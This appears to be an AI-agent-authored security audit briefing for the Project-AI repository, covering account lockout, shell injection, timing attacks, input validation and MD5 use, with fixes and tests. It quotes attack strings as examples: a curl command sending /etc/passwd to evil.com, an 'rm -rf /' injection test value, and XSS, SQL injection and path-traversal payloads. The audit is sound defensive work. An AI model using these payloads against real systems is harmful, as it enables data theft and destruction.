

# SECURITY BRIEFING: CRITICAL FINDINGS
## Project-AI Repository (IAmSoThirsty/Project-AI)

**Classification:** CONFIDENTIAL - SECURITY TEAM ONLY  
**Date:** 2026-02-08  
**Distribution:** Security Remediation Fleet (30 Agents)  
**Prepared By:** Agent 01 - Briefing & Analysis Lead  
**Status:** 🔴 CRITICAL - Immediate Action Required

---

## EXECUTIVE SUMMARY

Project-AI security assessment identified **251 security issues** requiring immediate remediation across authentication, input validation, and core infrastructure. The system exhibits **strong cryptographic foundations** (bcrypt/PBKDF2 password hashing, Fernet encryption) but suffers from **critical gaps in defense-in-depth mechanisms**. The most severe vulnerabilities enable brute-force attacks (no account lockout), command injection (shell=True in 10 subprocess calls), username enumeration (timing attacks), and XSS/injection risks (unvalidated GUI inputs). **Production deployment is NOT RECOMMENDED** until P0 (HIGH severity) issues are resolved. Estimated remediation timeline: 24-48 hours for critical fixes, 1-2 weeks for comprehensive hardening.

---

## SEVERITY BREAKDOWN

| Severity | Count | % Total | Sprint Priority |
|----------|-------|---------|-----------------|
| 🔴 **HIGH** | **14** | 5.6% | **P0 - Immediate (24-48hr)** |
| 🟡 **MEDIUM** | **32** | 12.7% | **P1 - This Sprint (Week 1)** |
| 🟢 **LOW** | **205** | 81.7% | **P2 - Next Sprint (Week 2-3)** |
| **TOTAL** | **251** | 100% | |

### Additional Context
- ✅ **0 CRITICAL dependency vulnerabilities** (pip-audit clean)
- ✅ Strong password hashing already implemented
- ❌ **5 authentication modules** with critical gaps
- ❌ **15 GUI modules** with no input validation
- ❌ **10 subprocess calls** vulnerable to command injection

---

## TOP 5 CRITICAL VULNERABILITIES

### 🥇 #1: NO ACCOUNT LOCKOUT MECHANISM (Authentication)
**Severity:** 🔴 HIGH  
**CWE:** CWE-307 (Improper Restriction of Excessive Authentication Attempts)  
**CVSS Score:** 8.2 (High)  

**Location:**
```
src/app/core/user_manager.py:119-134 (authenticate() method)
```

**Vulnerability:**
- Unlimited login attempts with no rate limiting
- No failed attempt tracking or temporary account locking
- Enables **brute-force attacks** and **credential stuffing**

**Proof of Concept:**
```python
# Attacker can attempt unlimited passwords:
for password in password_list:
    manager.authenticate("admin", password)  # No limit
```

**Impact:** 
- Attacker can brute-force weak passwords in hours/days
- No detection of credential stuffing attacks
- Enables automated attack tools (Hydra, Medusa)

**Remediation (Priority: P0):**
1. Add `failed_attempts` counter to user data model
2. Implement 5-attempt lockout with 15-minute cooldown
3. Add CAPTCHA after 3 failed attempts
4. Log all authentication events to SIEM

**Estimated Fix Time:** 4-6 hours

---

### 🥈 #2: SHELL INJECTION VULNERABILITIES (Command Execution)
**Severity:** 🔴 HIGH  
**CWE:** CWE-78 (OS Command Injection)  
**CVSS Score:** 9.8 (Critical if user input reaches subprocess)

**Locations (10 instances):**
1. `src/app/core/cerberus_runtime_manager.py:128` - Health check command execution
2. `src/app/infrastructure/networking/wifi_controller.py:227` - WiFi interface queries
3. `src/app/infrastructure/networking/wifi_controller.py:264` - Network scanning
4. `src/app/infrastructure/networking/wifi_controller.py:504` - Connection management
5. `src/app/infrastructure/vpn/backends.py:67` - WireGuard availability check
6. `src/app/infrastructure/vpn/backends.py:134` - VPN connection establishment
7. `src/app/infrastructure/vpn/backends.py:187` - VPN status queries
8. `src/app/infrastructure/vpn/backends.py:245` - OpenVPN checks
9. `src/app/infrastructure/vpn/backends.py:369` - macOS VPN control
10. `src/app/infrastructure/vpn/backends.py:420` - Connection teardown

**Example Vulnerability:**
```python
# VULNERABLE CODE (cerberus_runtime_manager.py:128):
result = subprocess.run(
    runtime.health_check_cmd,  # User-controlled via config
    shell=True,  # DANGEROUS
    capture_output=True,
    timeout=timeout,
)

# If health_check_cmd = "curl http://evil.com/$(cat /etc/passwd)"
# Attacker achieves arbitrary command execution
```

**Impact:**
- **Arbitrary code execution** on host system
- Data exfiltration via command injection
- Lateral movement in networked environments
- Full system compromise possible

**Remediation (Priority: P0):**
```python
# SECURE PATTERN:
result = subprocess.run(
    shlex.split(runtime.health_check_cmd),  # Parse safely
    shell=False,  # Never use shell=True
    capture_output=True,
    timeout=timeout,
)
# OR validate input strictly before execution
```

**Estimated Fix Time:** 6-8 hours (10 files to patch + testing)

---

### 🥉 #3: TIMING ATTACK VULNERABILITIES (Authentication)
**Severity:** 🔴 HIGH  
**CWE:** CWE-208 (Observable Timing Discrepancy)  
**CVSS Score:** 5.3 (Medium, but enables username enumeration)

**Locations:**
1. `src/app/core/user_manager.py:122-123` - User existence check
2. `src/app/core/command_override.py:186` - Legacy SHA-256 comparison
3. `src/app/core/command_override.py:157` - PBKDF2 verification

**Vulnerability:**
```python
# user_manager.py:122-123 (VULNERABLE):
if username not in self.users:
    return None  # ⚠️ Returns IMMEDIATELY (fast path)
    
# Password verification follows (slow path: ~300ms bcrypt)
return self.pwd_context.verify(password, user_data["password_hash"])
```

**Attack Scenario:**
1. Attacker sends login requests with timing measurements
2. Fast response (<10ms) = username doesn't exist
3. Slow response (~300ms) = username exists, wrong password
4. **Result:** Username enumeration without valid credentials

**Impact:**
- Reveals valid usernames to attackers
- Reduces brute-force search space by 50%+
- Enables targeted social engineering

**Remediation (Priority: P0):**
```python
# SECURE PATTERN (constant-time):
import secrets

# Always perform hash verification, even for invalid users
dummy_hash = self.pwd_context.hash("dummy_password_for_timing")
hash_to_check = self.users.get(username, {}).get("password_hash", dummy_hash)
is_valid = self.pwd_context.verify(password, hash_to_check)

if username not in self.users:
    return None
return username if is_valid else None
```

**Estimated Fix Time:** 3-4 hours

---

### 🔴 #4: UNVALIDATED GUI INPUTS (Input Validation)
**Severity:** 🔴 HIGH  
**CWE:** CWE-20 (Improper Input Validation)  
**CVSS Score:** 7.5 (High - XSS/Injection Risk)

**Locations (15 GUI modules affected):**
- `src/app/gui/login.py:148-149` - Username/password inputs
- `src/app/gui/persona_panel.py:316` - Action input (QTextEdit)
- `src/app/gui/dashboard_handlers.py` - Chat messages
- `src/app/gui/image_generation.py` - Prompt inputs
- `src/app/gui/knowledge_functions_panel.py` - Various text fields

**Vulnerability Pattern:**
```python
# VULNERABLE CODE (repeated across 15 files):
username = self.user_input.text().strip()  # ❌ No validation
password = self.pass_input.text().strip()  # ❌ No length check
action = self.action_input.toPlainText().strip()  # ❌ No sanitization
prompt = self.prompt_input.toPlainText()  # ❌ No XSS filtering
```

**Attack Vectors:**
1. **XSS in Chat/Logs:** `<script>alert(document.cookie)</script>`
2. **Buffer Overflow:** 1MB+ input strings crash application
3. **SQL Injection:** `admin' OR '1'='1'--` (if inputs reach DB)
4. **Path Traversal:** `../../../etc/passwd` in file inputs

**Impact:**
- Cross-site scripting in web-enabled features
- Application crashes via buffer overflow
- Potential data exfiltration
- Log injection for covering tracks

**Remediation (Priority: P0):**
```python
# SECURE PATTERN (centralized validation):
from app.security.data_validation import sanitize_input, validate_length

username = sanitize_input(self.user_input.text().strip(), max_length=50)
if not validate_length(username, min_len=3, max_len=50):
    raise ValidationError("Username must be 3-50 characters")

# Add to ALL 15 GUI modules
```

**Estimated Fix Time:** 8-10 hours (15 files + testing)

---

### 🔴 #5: WEAK MD5 HASH USAGE (Cryptography)
**Severity:** 🔴 HIGH (if used for security) / MEDIUM (if used for caching)  
**CWE:** CWE-327 (Use of a Broken or Risky Cryptographic Algorithm)  
**CVSS Score:** 5.9 (Medium)

**Locations (4 instances):**
1. `src/app/core/god_tier_intelligence_system.py:571` - Cache key generation
2. `src/app/core/hydra_50_performance.py:185` - Performance metrics
3. `src/app/core/location_tracker.py:295` - Location fingerprinting
4. `src/app/core/messaging_broker.py:586-588` - Message deduplication

**Vulnerability:**
```python
# god_tier_intelligence_system.py:571 (VULNERABLE):
key = f"{func.__name__}_{hashlib.md5(str((args, kwargs)).encode()).hexdigest()}"
```

**Risk Assessment:**
- **MD5 is cryptographically broken** (collision attacks since 2004)
- If used for integrity checks, attackers can create hash collisions
- If used for deduplication, collision attacks enable cache poisoning

**Current Usage Analysis:**
- ✅ **LOW RISK:** Cache key generation (non-security context)
- ⚠️ **MEDIUM RISK:** Location fingerprinting (privacy implications)
- ⚠️ **MEDIUM RISK:** Message deduplication (availability risk)

**Remediation (Priority: P0):**
```python
# BEFORE:
key = hashlib.md5(data).hexdigest()

# AFTER (secure):
key = hashlib.sha256(data).hexdigest()
# OR (non-security use):
key = hashlib.md5(data, usedforsecurity=False).hexdigest()  # Python 3.9+
```

**Estimated Fix Time:** 2-3 hours

---

## IMMEDIATE ACTION ITEMS (24-48 HOUR SPRINT)

### P0 Tasks (CRITICAL - Deploy Blockers)

| Task ID | Description | Owner Agent | Files | Est. Hours | Status |
|---------|-------------|-------------|-------|------------|--------|
| **P0-01** | Implement account lockout (5 attempts, 15min cooldown) | Agent 04 | `user_manager.py` | 4-6h | 🟡 Pending |
| **P0-02** | Remove `shell=True` from 10 subprocess calls | Agent 05 | 3 files | 6-8h | 🟡 Pending |
| **P0-03** | Fix timing attacks in authentication (constant-time) | Agent 06 | `user_manager.py`, `command_override.py` | 3-4h | 🟡 Pending |
| **P0-04** | Add GUI input validation (15 modules) | Agent 07-09 | 15 files | 8-10h | 🟡 Pending |
| **P0-05** | Replace MD5 with SHA-256 (4 locations) | Agent 10 | 4 files | 2-3h | 🟡 Pending |
| **P0-06** | Add password policy enforcement (NIST 800-63B) | Agent 11 | `user_manager.py` | 4h | 🟡 Pending |
| **P0-07** | Implement rate limiting middleware | Agent 12 | New file | 5-6h | 🟡 Pending |
| **P0-08** | Add request timeouts to API calls | Agent 13 | `location_tracker.py` | 1h | 🟡 Pending |

**Total Estimated Effort:** 33-42 hours  
**Parallelization:** 8 agents working simultaneously = **4-6 hour completion** (with 30-agent fleet)

---

## PHASE 2 RECOMMENDATIONS (WEEK 1)

### P1 Tasks (HIGH PRIORITY - Post-Critical Fixes)

1. **Session Management Hardening** (Agent 14-15)
   - Implement secure session tokens (JWT with RS256)
   - Add CSRF protection to all state-changing operations
   - Session timeout after 30 minutes of inactivity
   - Location: `src/app/core/session_manager.py` (new file)
   - **Estimated Time:** 8-10 hours

2. **Authorization Enforcement** (Agent 16-17)
   - Integrate Hydra50Security RBAC into main application
   - Add permission checks to all sensitive operations
   - Implement role-based UI hiding (principle of least privilege)
   - Location: `src/app/core/user_manager.py`, all GUI modules
   - **Estimated Time:** 12-15 hours

3. **Web Backend Security** (Agent 18-19)
   - Replace plaintext password comparison in Flask backend
   - Add Pydantic input validation to all endpoints
   - Implement CORS policies (whitelist origins)
   - Add security headers (CSP, X-Frame-Options, HSTS)
   - Location: `web/backend/app.py`, `api/main.py`
   - **Estimated Time:** 6-8 hours

4. **Secure Temporary File Handling** (Agent 20)
   - Replace insecure temp file usage with context managers
   - Use `tempfile.NamedTemporaryFile(delete=True)` pattern
   - Location: `src/app/agents/safety_guard_agent.py` (2 instances)
   - **Estimated Time:** 2-3 hours

5. **Model Supply Chain Security** (Agent 21-22)
   - Pin Hugging Face model revisions to specific commit SHAs
   - Add model checksum validation
   - Implement model download retry with exponential backoff
   - Location: 7 files using `AutoModel.from_pretrained()`
   - **Estimated Time:** 5-6 hours

6. **Pickle Deserialization Safety** (Agent 23)
   - Replace `pickle.load()` with restricted unpickler
   - Add content validation before deserialization
   - Switch to JSON where possible
   - Location: TBD (requires codebase scan)
   - **Estimated Time:** 4-5 hours

**Phase 2 Total Effort:** 37-47 hours (parallelized across 10 agents = 4-5 hours)

---

## PHASE 3 RECOMMENDATIONS (WEEK 2-3)

### P2 Tasks (MEDIUM/LOW PRIORITY - Defense in Depth)

1. **Comprehensive Logging & SIEM Integration** (Agent 24-25)
   - Centralized security event logging
   - Integration with Splunk/ELK stack
   - Audit trail for all authentication/authorization events
   - **Estimated Time:** 10-12 hours

2. **Password Reset Flow** (Agent 26)
   - Implement secure password reset with time-limited tokens
   - Add email verification (SMTP integration)
   - Token expiration (15-minute validity)
   - **Estimated Time:** 8-10 hours

3. **Content Security Policy** (Agent 27)
   - Implement CSP headers for web interfaces
   - Nonce-based inline script whitelisting
   - XSS prevention via HTML sanitization
   - **Estimated Time:** 4-5 hours

4. **Dependency Vulnerability Scanning** (Agent 28)
   - Automate `pip-audit` in CI/CD pipeline
   - Add `safety` checks to pre-commit hooks
   - Dependabot integration for automated PRs
   - **Estimated Time:** 3-4 hours

5. **Penetration Testing** (Agent 29-30)
   - Manual penetration testing of all P0 fixes
   - Automated fuzzing with AFL/LibFuzzer
   - OWASP ZAP scanning for web interfaces
   - **Estimated Time:** 16-20 hours

**Phase 3 Total Effort:** 41-51 hours (parallelized across 7 agents = 6-8 hours)

---

## RISK ASSESSMENT MATRIX

| Vulnerability Category | Likelihood | Impact | Risk Score | Mitigation Priority |
|------------------------|------------|--------|------------|---------------------|
| **Account Lockout (Brute-Force)** | 🔴 High | 🔴 High | **9.0** | P0 (Immediate) |
| **Shell Injection** | 🟡 Medium | 🔴 Critical | **8.5** | P0 (Immediate) |
| **Timing Attacks (Enumeration)** | 🟡 Medium | 🟡 Medium | **6.5** | P0 (Immediate) |
| **Unvalidated GUI Inputs** | 🔴 High | 🟡 Medium | **7.5** | P0 (Immediate) |
| **Weak MD5 Usage** | 🟢 Low | 🟡 Medium | **5.0** | P0 (Quick Fix) |
| **No Session Timeout** | 🟡 Medium | 🟡 Medium | **6.0** | P1 (Week 1) |
| **RBAC Not Enforced** | 🟡 Medium | 🟡 Medium | **6.0** | P1 (Week 1) |
| **Plaintext Passwords (Web)** | 🟡 Medium | 🔴 High | **7.0** | P1 (Week 1) |
| **Insecure Temp Files** | 🟢 Low | 🟡 Medium | **4.5** | P1 (Week 1) |
| **No Password Reset** | 🟢 Low | 🟢 Low | **3.0** | P2 (Week 2-3) |

**Risk Calculation Formula:** `Risk Score = (Likelihood × Impact) / 2 + CVSS/2`

---

## COMPLIANCE & REGULATORY IMPACT

### Standards Affected by Current Vulnerabilities

| Standard | Violation | Severity | Remediation Task |
|----------|-----------|----------|------------------|
| **OWASP Top 10 2021** | A07:2021 - Identification and Authentication Failures | 🔴 Critical | P0-01, P0-03, P0-06 |
| **OWASP Top 10 2021** | A03:2021 - Injection | 🔴 Critical | P0-02, P0-04 |
| **NIST 800-63B** | Password Policy (Section 5.1.1) | 🔴 High | P0-06 |
| **CWE Top 25** | CWE-78 (OS Command Injection) | 🔴 Critical | P0-02 |
| **CWE Top 25** | CWE-20 (Improper Input Validation) | 🔴 High | P0-04 |
| **PCI DSS 4.0** | Requirement 8.3 (Account Lockout) | 🔴 High | P0-01 |
| **ISO 27001** | A.9.4.2 (Secure Log-on Procedures) | 🟡 Medium | P0-01, P0-07 |
| **GDPR** | Article 32 (Security of Processing) | 🟡 Medium | All P0 Tasks |

**Compliance Recommendation:** Defer production launch until all P0 tasks complete to avoid regulatory penalties.

---

## DEPENDENCIES & BLOCKERS

### Cross-Task Dependencies


### External Dependencies
- **Email Service:** Required for password reset (P2 task)
- **SIEM Platform:** Required for centralized logging (P2 task)
- **CI/CD Pipeline:** Required for automated security scanning (P2 task)

### Technical Debt Blockers
- **No Centralized Validation Module:** Must refactor 15 GUI files (P0-04)
- **Hydra50Security Not Integrated:** Requires architecture changes (P1)

---

## SUCCESS METRICS

### P0 Completion Criteria (24-48 Hour Sprint)
- ✅ All 14 HIGH severity issues resolved
- ✅ Bandit scan shows 0 HIGH issues (currently 14)
- ✅ 100% code coverage for new security functions
- ✅ Penetration test: No authentication bypass possible
- ✅ Fuzzing test: No crashes on malformed inputs

### Phase 2/3 KPIs
- 🎯 **MEDIUM issues:** Reduce from 32 to <10 (70% reduction)
- 🎯 **Security test coverage:** Achieve 80%+ for auth/input modules
- 🎯 **SIEM integration:** 100% of security events logged
- 🎯 **Compliance:** Pass OWASP ASVS Level 2 verification

---

## COMMUNICATION PLAN

### Daily Standups (09:00 UTC)
- **Attendees:** All 30 security agents
- **Format:** Round-robin status updates (2 min each)
- **Topics:** Completed tasks, blockers, handoffs

### Mid-Sprint Review (12 hours in)
- **Check:** P0 tasks 50%+ complete
- **Decision Point:** Escalate blockers to human oversight

### Sprint Retrospective (48 hours)
- **Deliverables:** 
  - Security patch bundle (Git branch: `security/p0-fixes`)
  - Test suite with 80%+ coverage
  - Deployment runbook
  - Post-remediation security report

### Escalation Path
1. **Agent-Level Blockers:** Communicate in shared task database
2. **Technical Blockers:** Escalate to Agent 01 (Briefing Lead)
3. **Architecture Decisions:** Escalate to human security architect
4. **Emergency:** Use `#security-war-room` Slack channel

---

## APPENDIX A: FILE INVENTORY

### Critical Files Requiring Modification (P0)

**Authentication (3 files):**
- `src/app/core/user_manager.py` - Account lockout, timing fixes, password policy
- `src/app/core/command_override.py` - Timing attack fixes
- `src/app/security/rate_limiter.py` - NEW FILE (rate limiting middleware)

**Command Execution (3 files):**
- `src/app/core/cerberus_runtime_manager.py` - Shell injection fix
- `src/app/infrastructure/networking/wifi_controller.py` - 3 shell=True removals
- `src/app/infrastructure/vpn/backends.py` - 6 shell=True removals

**Input Validation (15 files):**
- `src/app/gui/login.py`
- `src/app/gui/persona_panel.py`
- `src/app/gui/dashboard_handlers.py`
- `src/app/gui/image_generation.py`
- `src/app/gui/knowledge_functions_panel.py`
- `src/app/gui/user_chat_panel.py`
- `src/app/gui/ai_response_panel.py`
- `src/app/gui/proactive_actions_panel.py`
- `src/app/gui/ai_head_panel.py`
- `src/app/gui/stats_panel.py`
- `src/app/gui/leather_book_interface.py`
- `src/app/gui/leather_book_dashboard.py`
- `src/app/gui/data_analysis_panel.py`
- `src/app/gui/learning_request_panel.py`
- `src/app/gui/location_panel.py`

**Cryptography (4 files):**
- `src/app/core/god_tier_intelligence_system.py` - MD5 → SHA-256
- `src/app/core/hydra_50_performance.py` - MD5 → SHA-256
- `src/app/core/location_tracker.py` - MD5 → SHA-256, add timeout
- `src/app/core/messaging_broker.py` - MD5 → SHA-256

**Total Files Modified:** 25 files + 1 new file

---

## APPENDIX B: TESTING STRATEGY

### Unit Tests (Required for P0)
```python
# test_authentication_security.py
def test_account_lockout_after_5_attempts():
    """Verify account locks after 5 failed login attempts."""
    manager = UserManager()
    for i in range(5):
        assert manager.authenticate("admin", "wrong_password") is None
    
    # 6th attempt should raise AccountLockedException
    with pytest.raises(AccountLockedException):
        manager.authenticate("admin", "wrong_password")

def test_constant_time_authentication():
    """Verify no timing difference between valid/invalid users."""
    manager = UserManager()
    
    # Measure timing for valid user (wrong password)
    start = time.perf_counter()
    manager.authenticate("admin", "wrong_password")
    valid_user_time = time.perf_counter() - start
    
    # Measure timing for invalid user
    start = time.perf_counter()
    manager.authenticate("nonexistent_user", "wrong_password")
    invalid_user_time = time.perf_counter() - start
    
    # Timing difference should be <50ms (bcrypt variance)
    assert abs(valid_user_time - invalid_user_time) < 0.05

def test_password_policy_enforcement():
    """Verify password policy requirements."""
    manager = UserManager()
    
    # Too short
    with pytest.raises(PasswordPolicyError):
        manager.create_user("user1", "Pass1!")
    
    # No uppercase
    with pytest.raises(PasswordPolicyError):
        manager.create_user("user1", "password123!")
    
    # Valid password
    manager.create_user("user1", "SecurePass123!")
```

### Integration Tests
```python
def test_shell_injection_prevention():
    """Verify subprocess calls cannot execute injected commands."""
    controller = WiFiController()
    
    # Attempt command injection
    malicious_ssid = "network; rm -rf /"
    with pytest.raises(ValidationError):
        controller.connect(malicious_ssid)
```

### Penetration Testing Checklist
- [ ] Brute-force attack blocked after 5 attempts
- [ ] Timing attack fails to enumerate users
- [ ] SQL injection attempts return errors (not data)
- [ ] XSS payloads are sanitized in all GUI fields
- [ ] Command injection fails in all subprocess calls
- [ ] Session hijacking prevented via secure tokens
- [ ] Password policy cannot be bypassed via API

---

## APPENDIX C: REFERENCE DOCUMENTATION

### Security Standards
- [OWASP Top 10 2021](https://owasp.org/www-project-top-ten/)
- [NIST 800-63B Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/)
- [OWASP ASVS 4.0](https://owasp.org/www-project-application-security-verification-standard/)

### Internal Documentation
- `AUTHENTICATION_SECURITY_AUDIT_REPORT.md` - Full authentication findings
- `INPUT_VALIDATION_SECURITY_AUDIT.md` - Input validation analysis
- `SECURITY_VULNERABILITY_ASSESSMENT_REPORT.md` - Bandit scan results
- `bandit-report.json` - Raw Bandit output (251 issues)

### Tools & Frameworks
- **Bandit:** Static security analysis for Python
- **pip-audit:** Dependency vulnerability scanner
- **passlib:** Password hashing library (bcrypt/PBKDF2)
- **defusedxml:** Safe XML parsing
- **cryptography:** Fernet encryption

---

## SIGN-OFF

**Prepared By:** Agent 01 - Security Briefing Lead  
**Reviewed By:** Agent 02 - Quality Assurance Lead  
**Approved For Distribution:** 2026-02-08 14:32 UTC  

**Next Review:** Post-P0 completion (48 hours from sprint start)  

**Distribution List:**
- Security Fleet Agents 01-30
- Human Security Architect (Oversight)
- DevOps Team (Deployment Coordination)

---

**END OF BRIEFING - CLASSIFIED MATERIAL**

**Classification:** CONFIDENTIAL - SECURITY TEAM ONLY  
**Document Version:** 1.0  
**Last Updated:** 2026-02-08 14:32 UTC
